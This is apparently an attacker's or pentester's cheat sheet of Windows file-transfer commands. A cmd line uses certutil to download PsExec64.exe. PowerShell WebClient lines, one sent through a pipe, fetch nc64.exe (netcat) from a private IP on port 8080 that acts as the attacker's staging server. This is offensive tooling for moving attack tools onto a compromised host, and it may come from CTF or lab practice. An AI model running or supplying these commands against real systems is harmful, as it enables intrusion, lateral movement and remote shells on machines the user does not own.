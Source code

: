 # Windows

## cmd

```
certutil -urlcache -f -split https://live.sysinternals.com/PsExec64.exe
```

## powershell

```powershell
IEX(New-Object System.Net.WebClient).DownloadFile('http://10.10.15.139:8080/nc64.exe', 'nc64.exe')
```
> или через pipe
```powershell
echo IEX(New-Object System.Net.WebClient).DownloadFile('http://10.10.15.139:8080/nc64.exe', 'nc64.exe') | powershell -noprofile
```
